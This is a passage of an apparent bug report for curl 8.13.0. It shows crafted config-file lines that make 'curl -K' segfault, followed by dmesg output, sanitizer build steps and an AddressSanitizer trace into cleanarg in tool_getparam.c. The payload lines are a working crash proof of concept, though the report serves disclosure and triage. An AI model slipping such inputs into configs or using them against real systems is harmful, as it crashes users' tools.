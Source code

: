   3.  -The crash could be caused by crafted config file that contains one of this payloads;
       -> It could be appended anywhere in new line in config-file;
       -> All the inputs lead to one crash path.
 
            echo -ne "-vvvuAAAA" > malicious_config_file1.conf     (u for --user <user:password> )
            echo -ne "-vvvUAAAA" > malicious_config_file2.conf     (U for --proxy-user <user:password> )
            echo -ne "-vvvEAAAA" > malicious_config_file3.conf     (E for --cert <certificate[:password]> )

  
  4. 
       curl -K malicious_config_file1.conf  
       zsh: segmentation fault  curl -K malicious_config_file1.conf
     ---------------- Or ------------------
     curl -K malicious_config_file2.conf 
        zsh: segmentation fault  curl -K malicious_config_file2.conf
      ---------------- Or ------------------
     curl -K malicious_config_file3.conf 
        zsh: segmentation fault  curl -K malicious_config_file3.conf
 
  >> sudo dmesg |tail -n 6

        [176771.791272] curl[132987]: segfault at 5 ip 00007f3a8db8b75d sp 00007ffd419fd958 error 4 in libc.so.6[18b75d,7f3a8da28000+188000] likely on CPU 3 (core 3, socket 0)
        [176771.791357] Code: 00 00 66 2e 0f 1f 84 00 00 00 00 00 90 f3 0f 1e fa 89 f8 48 89 fa c5 f9 ef c0 25 ff 0f 00 00 3d e0 0f 00 00 0f 87 33 01 00 00 <c5> fd 74 0f c5 fd d7 c1 85 c0 74 57 f3 0f bc c0 c5 f8 77 c3 66 66

        [176778.655937] curl[132996]: segfault at 5 ip 0000792ad5f8b75d sp 00007fff028cfc18 error 4 in libc.so.6[18b75d,792ad5e28000+188000] likely on CPU 6 (core 2, socket 1)
        [176778.656011] Code: 00 00 66 2e 0f 1f 84 00 00 00 00 00 90 f3 0f 1e fa 89 f8 48 89 fa c5 f9 ef c0 25 ff 0f 00 00 3d e0 0f 00 00 0f 87 33 01 00 00 <c5> fd 74 0f c5 fd d7 c1 85 c0 74 57 f3 0f bc c0 c5 f8 77 c3 66 66

        [176783.987409] curl[133003]: segfault at 5 ip 000079c33cd8b75d sp 00007ffe06464158 error 4 in libc.so.6[18b75d,79c33cc28000+188000] likely on CPU 0 (core 0, socket 0)
        [176783.987474] Code: 00 00 66 2e 0f 1f 84 00 00 00 00 00 90 f3 0f 1e fa 89 f8 48 89 fa c5 f9 ef c0 25 ff 0f 00 00 3d e0 0f 00 00 0f 87 33 01 00 00 <c5> fd 74 0f c5 fd d7 c1 85 c0 74 57 f3 0f bc c0 c5 f8 77 c3 66 66


## Triaging the crash: 
 1.To triage this we need to build with extra flags:  

    >> CFLAGS="-fsanitize=address,undefined -g -O0 -fno-omit-frame-pointer" ./configure --with-openssl    
    >> make all && sudo make install 

  2.Run curl : 
    ------------------------------------- Asan output ----------------------------------
    pc@pc22:~/Downloads$ curl -K malicious_config_file1.conf 
    AddressSanitizer:DEADLYSIGNAL
    ------------------------------------------------------------------------------------
          ==140300==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000005 (pc 0x72133b58b75d bp 0x7ffe1b2c0b20 sp 0x7ffe1b2c02a8 T0)
          ==140300==The signal is caused by a READ memory access.
          ==140300==Hint: address points to the zero page.
              #0 0x72133b58b75d in __strlen_avx2 ../sysdeps/x86_64/multiarch/strlen-avx2.S:76
              #1 0x63e45d7996dc in cleanarg /home/bobo/Downloads/curl-8.13.0/src/tool_getparam.c:583
              #2 0x63e45d7b2d19 in getparameter /home/bobo/Downloads/curl-8.13.0/src/tool_getparam.c:2901
              #3 0x63e45d7b1ad8 in getparameter /home/bobo/Downloads/curl-8.13.0/src/tool_getparam.c:2790
              #4 0x63e45d7b4205 in parse_args /home/bobo/Downloads/curl-8.13.0/src/tool_getparam.c:3016
              #5 0x63e45d7b76ba in main /home/bobo/Downloads/curl-8.13.0/src/tool_main.c:284
